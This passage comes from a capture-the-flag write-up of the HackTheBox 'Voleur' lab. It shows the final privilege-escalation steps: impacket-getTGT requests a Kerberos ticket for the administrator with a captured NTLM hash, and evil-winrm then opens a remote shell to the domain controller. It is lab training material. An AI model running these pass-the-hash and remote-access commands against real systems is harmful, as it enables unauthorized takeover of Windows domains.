

With the hash, I request a TGT directly:

```
impacket-getTGT voleur.htb/administrator -hashes :e656e07c56d831611b577b160b259ad2 -dc-ip 10.129.59.187
export KRB5CCNAME=administrator.ccache
```

Finally, I connect with `evil-winrm` as `administrator`. From there, I read the root flag.

```
evil-winrm -i dc.voleur.htb -r VOLEUR.HTB
```



---